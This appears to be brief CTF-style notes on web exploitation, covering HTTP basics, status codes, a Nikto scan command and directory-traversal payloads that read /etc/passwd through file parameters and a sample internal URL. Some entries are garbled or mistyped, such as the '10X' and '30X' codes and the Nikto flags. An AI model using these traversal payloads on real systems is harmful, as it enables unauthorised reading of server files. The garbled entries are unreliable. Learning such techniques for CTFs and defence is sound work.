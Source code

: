 # HTML

[CTFDWalkthrough](resources/Web-Exploitation-Walkthrough.md)
## Request
```
GET / HTTP/1.1

HTTP/1.1 200 OK
```
## Methods
RFC 2616

- GET
- POST
- HEAD
- PUT
## Response Codes
| Code | Name |
| - | - |
| 10X | Informational |
| 2XX | Success |
| 30X | Redirection |
| 4XX | Client Error |
| 5XX | Server Error |

## Html traversal
```
view_image.php?file=../../etc/passwd
```
# Tools
- Developer tools
- Nikto:
```
nikto v -h X.X.X.X
```
# Directory Traversal using post methods
```
../../../../../../../../../../etc/passwd
```
or
```
http://10.50.28.11/path/pathdemo.php?myfile=../../../../../../../../../../etc/passwd
```
for when absolute pathing is not possible
